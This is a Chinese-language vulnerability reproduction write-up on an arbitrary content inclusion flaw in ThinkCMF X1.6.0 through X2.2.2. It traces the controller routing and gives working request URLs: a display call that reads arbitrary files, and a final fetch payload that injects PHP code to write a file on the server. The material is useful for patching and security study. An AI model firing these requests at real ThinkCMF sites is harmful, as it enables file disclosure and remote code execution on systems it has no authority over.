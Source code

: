 ThinkCMF 框架上的任意内容包含漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF
X2.2.2

三、复现过程
------------

根据index.php中的配置，他的项目路径为application，打开 Portal 下的
Controller 目录，选择一个控制类文件。

![](./.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId24.png)

发现他的父类为Common\\Controller\\HomebaseController。
在HomeBaseController中加入如下测试代码

![](./.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId25.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public,
而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

    http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success

![](./.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId26.png)

HomeBaseController类中有一些访问权限为public的函数，

![](./.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId27.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
\$this-\>parseTemplate
函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

    /**
     * 加载模板和页面输出 可以返回输出内容
     * @access public
     * @param string $templateFile 模板文件名
     * @param string $charset 模板输出字符集
     * @param string $contentType 输出类型
     * @param string $content 模板输出内容
     * @return mixed
     */
    public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
        parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
    }

再往下就是调用Think View的fetch方法，这里的TMPL\_ENGINE\_TYPE 为Think,
最终模版内容解析在ParseTemplateBehavior中完成 如下调用即可加载任意文件
<http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md>

![](./.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId29.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

    http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
